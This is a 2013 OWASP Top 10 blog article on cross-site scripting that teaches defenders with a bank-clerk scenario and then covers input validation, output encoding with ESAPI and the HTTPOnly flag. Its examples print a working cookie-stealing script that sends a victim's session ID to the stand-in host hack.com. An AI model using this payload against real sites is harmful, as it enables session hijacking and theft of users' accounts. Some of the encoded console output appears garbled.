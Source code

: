 ```yaml
---
authors:
- Philippe Cery
categories:
- OWASP
- Sécurité
- Web
date: 2013-10-28T08:57:07.000Z
title: "OWASP Top 10 - A3 Cross Site Scripting (XSS)"
id: 5a267e57dd54250018d6b5be
image: 
---
```


## Description

Cross-Site Scripting is a specific consequence of an injection attack. The goal is to make a web browser execute arbitrary scripting code (Javascript, ActionScript, ActiveX…) usually to steal personal information.

## Examples

### Persistent XSS attack

The attacker’s bank website proposes a messaging service to communicate with the clerk.
 The attacker posts the following message:
```language-html
Happy New Year!
 <script>x=new Image(); x.src=’http://hack.com/ilovecookies.jsp?yummy=’+document.cookie</script>
```

Once connected on the bank’s website with its special account, the bank clerk consults its new messages. When he opens the suspicious message, he will see the “Happy New Year!” greetings. The second line of the message will not be shown but interpreted by his browser which will silently send his session ID to *hack.com*. Then the attacker will be able to hijack the clerk’s session on the bank’s website to have access to sensitive information on other clients…

### Non-persistent XSS attack

The attacker sends to the clerk an email asking him to consult its account with the following direct link to the website:
```language-html
https://www.mybank.com/details?iban=<script>x=new Image(); x.src=’http://hack.com/ilovecookies.jsp?yummy=’+document.cookie</script>
```

Once authenticated with its own account, the clerk tries to display the account page using the provided link but obviously the bank could not find the requested IBAN and displays an error page to the clerk:
```language-html
IBAN not found: <script>x=new Image(); x.src=’http://hack.com/ilovecookies.jsp?yummy=’+document.cookie</script>
```

Of course, the clerk can only see the beginning of the message “`IBAN not found: `“. The javascript snippet is interpreted by the clerk’s browser and silently send the clerk’s session ID to *hack.com*.

## Mitigations

### Protection against injection attack

If your web application is not protected against [injection](http://blog.ippon.fr/2013/10/11/owasp-top-10-a1/ "OWASP Top 10 - A1 Injection") attacks, it is definitely vulnerable to XSS attacks. When possible, validate untrusted input before usage and storage.

### Output encoding

Sometimes, it is difficult to have an exhaustive white-list of allowed characters when the input is a free text. In theses cases, it is important to canonicalize the input data before storage then encode output data so that special characters are not misinterpreted by the browser. If you don’t canonicalize the input data before storage, encoded input data will be re-encoded.
 E.g. < and > must be converted into `<` and `>` in HTML pages or the string between these 2 characters could be interpreted by the browser as an HTML tag. In the examples above, after encoding, `<script>` becomes `<script>` and won’t be interpreted as a script tag by the browser but displayed as text. Thus the suspicious javascript code won’t be executed.
 Of course, untrusted code can be inserted anywhere in the web page. [ESAPI](https://www.owasp.org/index.php/Category:OWASP_Enterprise_Security_API "ESAPI")‘s Encoder can be used to encode characters depending on where you need to insert untrusted code. Below are some examples:

```language-java
Encoder encoder = ESAPI.encoder();
String rawOutput = "<script>alert("hello");</script>";
System.out.println("Encoded for HTML : "+encoder.encodeForHTML(rawOutput));
System.out.println("Encoded for CSS : "+encoder.encodeForCSS(rawOutput));
System.out.println("Encoded for Javascript : "+encoder.encodeForJavaScript(rawOutput));
System.out.println("Encoded for URL : "+encoder.encodeForURL(rawOutput));
```

Console output:

```language-html
<em>Encoded for HTML : <script>alert("hello");</script>
Encoded for CSS : 3c script3e alert28 22 hello22 29 3b 3c 2f script3e
Encoded for Javascript : x3Cscriptx3Ealertx28x22hellox22x29x3Bx3Cx2Fscriptx3E
Encoded for URL : %3Cscript%3Ealert%28%22hello%22%29%3B%3C%2Fscript%3E</em>
```

Other open-source third-parties exist to encode text before output. Have a look on [Apache Commons-Lang3 API](http://commons.apache.org/proper/commons-lang/javadocs/api-3.1/org/apache/commons/lang3/StringEscapeUtils.html "Apache Commons-Lang3"). It is less strict on encoding but it is acceptable for a simple web application.

`System.out.println("Encoded for HTML : "+StringEscapeUtils.escapeHtml4(rawOutput));`

Console output:

`<em>Encoded for HTML : <script>alert("hello");</script></em>`

### HTTPOnly cookie flag

The examples above show teo different ways to steal a session ID. As discussed in the previous article, if an attacker steals the session ID of an user authenticated on a website, he can impersonate the victim on that website.

Although only the web browser needs to know the session ID, anyone (including a script) could read the value. That’s why Microsoft IE6 developers decided to implement the HTTPOnly flag. When this flag is set (and if the browser supports it), the XSS attack above won’t be able to steal the session ID.

If your application is Servlet 3.0 compliant, you can configure it by adding the following in your `web.xml`:
```language-xml
<session-config>
  <cookie-config>
    <http-only>true</http-only>
  </cookie-config>
</session-config>
```

Otherwise, you will need to configure your server. For example, if you use Apache Tomcat 6, you can set the HTTPOnly flag on cookies by adding the attribute `useHttpOnly="true"` in your `context.xml`:
```language-xml
<Context ... <em>useHttpOnly="true"</em>>
</Context>```

To see all articles related to OWASP Top 10, follow the tag [#owasp](http://blog.ippon.fr/tag/owasp/ "OWASP Top 10")

